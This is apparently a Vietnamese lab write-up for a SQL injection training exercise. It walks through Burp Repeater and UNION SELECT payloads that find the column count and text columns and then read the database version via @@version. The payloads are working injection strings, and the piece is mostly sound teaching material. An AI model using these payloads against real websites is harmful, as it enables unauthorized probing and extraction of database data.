




# SQL Injection Lab 04: Database Version (MySQL/MSSQL)

## Mục tiêu
Khai thác SQLi để lấy chuỗi version của MySQL hoặc Microsoft SQL Server.


<br><br>

## Các bước chính
1. Bắt request `/filter?category=...` bằng Burp Repeater.


<br><br>

2. Dò số cột với `UNION SELECT`:

```sql
' union select null, null#
```


<br><br>

3. Dò cột hiển thị text:

```sql
' union select 'abc','def'#
```

4. Lấy version DB:

```sql
' union select @@version, null#
```


<br><br>

## Payload solve

```sql
' union select @@version, null#
```
